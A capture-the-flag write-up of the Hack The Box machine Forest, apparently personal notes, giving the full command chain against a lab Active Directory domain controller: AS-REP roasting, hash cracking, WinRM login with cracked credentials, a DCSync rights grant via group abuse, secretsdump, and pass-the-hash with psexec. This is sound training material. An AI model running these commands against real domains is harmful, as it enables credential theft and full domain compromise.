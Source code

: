 **Ping**
![[Pasted image 20240703104501.png]]

**Nmap Scans**
```
mapit 10.10.10.161
```

Nmap Default Scan
![[Pasted image 20240703104614.png]]

Nmap Service and Script Scan
![[Pasted image 20240703104709.png]]
![[Pasted image 20240703104723.png]]

Nmap All Port Scan
![[Pasted image 20240703104750.png]]

Nmap Service and Script Scan for New ports found
![[Pasted image 20240703104836.png]]

Smb is not vulnerable, and after a lot of enumeration with smb and ldap services, I got Usernames and built in groups and AD environment info's using bot ldapsearch and enum4linux, below are the command I have used, I can't attach Screen shots, because the outputs are in enormous amount.
```
enum4linux -a 10.10.10.161
```
```
ldapsearch -v -x -b "DC=htb,DC=local" -H "ldap://10.10.10.161" "(objectclass=*)" > ldap.txt
```

Finally got some useful info while As-rep Roasting without username and password
```
impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161 -request
```
![[Pasted image 20240703114849.png]]

Will Jump to Initial Foothold....!

Will crack the hash using John, I have saved the hash in a file named asrep.hash
```
john --wordlist=/usr/share/wordlists/rockyou.txt asrep.hash
```
![[Pasted image 20240703115021.png]]
So the creds is **svc-alfresco:s3rvice**

We can Now list Shares
```
crackmapexec smb 10.10.10.161 -u svc-alfresco -p "s3rvice" --shares
```
![[Pasted image 20240703115304.png]]

We can get session using winrm
```
crackmapexec winrm 10.10.10.161 -u svc-alfresco -p "s3rvice"
```
![[Pasted image 20240703115358.png]]

Using Evil-Winrm
```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p "s3rvice"
```
![[Pasted image 20240703115539.png]]

User.txt
![[Pasted image 20240703115814.png]]


Will Jump to Privilege Escalation....!


Will check our Privileges
```
whoami /priv
```
![[Pasted image 20240703120011.png]]
We can computers to domain

We can add up to 10 computers
```
Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'
```
![[Pasted image 20240703120215.png]]

Will Add computer and Impersonate Administrator
```
impacket-addcomputer htb.local/svc-alfresco -dc-ip 10.10.10.161 -computer-name 'pwned$' -computer-pass 'pwned@3000'
```
![[Pasted image 20240703120625.png]]

But we can't set delegation rights to impersonate the Administrator, will find another way, will gather Ad info using Sharphound.

Firstly we are in the group Service Accounts
![[Pasted image 20240703122259.png]]

Run Sharp hound
```
Import-Module ./sharp.ps1

Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\svc-alfresco\Desktop\ -OutputPrefix "forest"
```
![[Pasted image 20240703122714.png]]

Lets Transfer the .zip file to our kali and analyse using Bloodhound
![[Pasted image 20240703124419.png]]
As we are the member of Account operators, we can create users in domain and manage the group and its memberships.

Will create a user first
```
net user rosh pwn@3000 /add /domain
```
![[Pasted image 20240703124628.png]]

As we have generic all permission on the system 
![[Pasted image 20240703130436.png]]

![[Pasted image 20240703130630.png]]

So first we add user rosh to Exchange Windows Permissions group
```
net group "Exchange Windows Permissions" rosh /add /domain
```
![[Pasted image 20240703130923.png]]

Will give this group DCSync rights
```
$secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'rosh' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```
![[Pasted image 20240703131518.png]]

Will use Secretsdump to get NYLM hashes of users
```
impacket-secretsdump rosh:pwn@3000@10.10.10.161
```
![[Pasted image 20240703131558.png]]
Got Admin's NTLM

Will get a session using Pkexec
```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```
![[Pasted image 20240703131907.png]]

**root.txt**
![[Pasted image 20240703132000.png]]





Done with Forest..........:)